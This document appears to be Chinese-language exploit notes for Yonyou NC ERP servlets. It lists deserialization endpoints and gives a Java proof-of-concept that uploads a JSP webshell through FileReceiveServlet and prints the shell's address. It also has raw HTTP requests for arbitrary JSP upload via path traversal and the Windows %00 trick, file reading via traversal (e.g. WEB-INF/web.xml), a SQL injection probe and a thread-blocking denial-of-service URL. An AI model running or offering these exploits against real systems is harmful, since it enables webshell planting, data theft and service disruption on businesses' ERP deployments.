 ## 反序列化

http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet 
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

```
FileUploadServlet.class
FileParserServlet.class
FileManageServlet.class
ContactsQueryServiceServlet.class  
ContactsFuzzySearchServlet.class
ConfigResourceServlet.class 
ActionHandlerServlet.class
```

FileReceiveServlet.class  文件上传poc如下：（万一cc链利用不了 上面其他反序列化都可以像这样构造来还原原始请求逻辑）

```java
public class Yongyou_upload {
    public static void main(String[] args) throws Exception {
        BufferedReader reader;
        StringBuffer response;
        String path="/servlet/FileReceiveServlet";
        Map<String, Object> metaInfo = new HashMap<String, Object>();
        metaInfo.put("TARGET_FILE_PATH", "webapps/nc_web");
        metaInfo.put("FILE_NAME", "sectest666.jsp");
        String uri=args[0];
        URL url = new URL(uri+path);
        HttpURLConnection httpUrlConn = (HttpURLConnection)url.openConnection();
        httpUrlConn.setRequestProperty("Content-Type","application/x-java-serialized-object");
        httpUrlConn.setDoOutput(true);
        httpUrlConn.setDoInput(true);
        httpUrlConn.setUseCaches(false);
        httpUrlConn.setRequestMethod("POST");
        httpUrlConn.connect();
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        OutputStream out = httpUrlConn.getOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(out);
        oos.writeObject(metaInfo);
        File file = new File(args[1]);
        Long filelength = file.length();
        byte[] filecontent = new byte[filelength.intValue()];
        try {
            FileInputStream in =new FileInputStream(file);
            byte[] buf = new byte[1024];
            int len = 0;
            while ((len = in.read(buf)) != -1) {
                baos.write(buf, 0, len);
            }
            baos.flush();
            baos.writeTo(out);
            baos.close();
            InputStream inputStream = httpUrlConn.getInputStream();
            reader = new BufferedReader(new InputStreamReader(inputStream, "UTF-8"));
            String lines;
            response = new StringBuffer("");

            while ((lines = reader.readLine()) != null) {
                response.append(lines);
            }
        } catch(IOException e) {
            e.printStackTrace();
        }
        URL httpUrl = new URL(uri+"/test.jsp");
        HttpURLConnection httpURLConnection = (HttpURLConnection) httpUrl.openConnection();
        httpURLConnection.setReadTimeout(50000);
        httpURLConnection.setRequestMethod("GET");
        if(httpURLConnection.getResponseCode()==200){
            System.out.println("shell 地址:\n"+uri+"/test.jsp");
        }
    }
```



## 任意文件上传

UploadFileServlet.class

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"
	
上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
	
http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
```

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 177

--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```


SaveImageServlet.class       但是只能是.png文件	可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 171
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功

 
## 任意文件读取	

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端

	POST /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	Content-Type: application/data
	
	123123

http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 

```
/NCFindWeb?service=IPreAlertConfigService&filename=
```

​	

## sql注入

```
http://127.0.0.1:8081/servlet/~pubapp/com.yonyou.ma.roster.servlet.MARosterPhotoServlet?photoId=123'&type=pid
	
	
```

## 拒绝服务

upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
